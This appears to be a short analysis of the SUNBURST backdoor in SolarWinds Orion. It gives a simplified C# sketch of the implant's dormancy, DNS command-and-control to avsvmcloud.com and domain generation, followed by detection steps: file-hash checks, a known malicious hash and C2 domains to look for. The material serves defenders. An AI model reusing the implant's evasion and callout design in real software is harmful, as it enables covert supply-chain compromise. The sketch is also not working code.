 ### Technical Analysis

```csharp
// SUNBURST backdoor analysis
// Malicious code injected into SolarWinds.Orion.Core.BusinessLayer.dll

public class OrionImprovementBusinessLayer
{
    // Legitimate-looking class name
    
    public void UpdateAsync()
    {
        // Dormancy period
        Thread.Sleep(TimeSpan.FromMinutes(12960)); // ~9 days
        
        // C2 communication via DNS
        string c2Domain = GenerateDomain();
        DnsQuery(c2Domain);
        
        // If response received, download secondary payload
    }
    
    private string GenerateDomain()
    {
        // DGA (Domain Generation Algorithm)
        // Uses legitimate-looking subdomains
        return $"{userId}.appsync-api.{region}.avsvmcloud.com";
    }
}
```

### Detection Methods

```bash
# Check for indicators of compromise

# 1. Check Orion version
# Vulnerable versions: 2019.4 HF 5, 2020.2 RC 1, 2020.2 RC 2

# 2. Check for SUNBURST backdoor
Get-FileHash "C:\Program Files (x86)\SolarWinds\Orion\SolarWinds.Orion.Core.BusinessLayer.dll"

# Known malicious hash:
# d0d626deb3f9484e649294a8dfa814c5568f846d5aa02d4cdad5d041a29d5600

# 3. Check for C2 domains
# Look for DNS queries to:
# *.avsvmcloud.com
# *.appsync-api.*.avsvmcloud.com

# 4. Check firewall logs for outbound connections
netsh advfirewall firewall show rule name=all | findstr SolarWinds
```
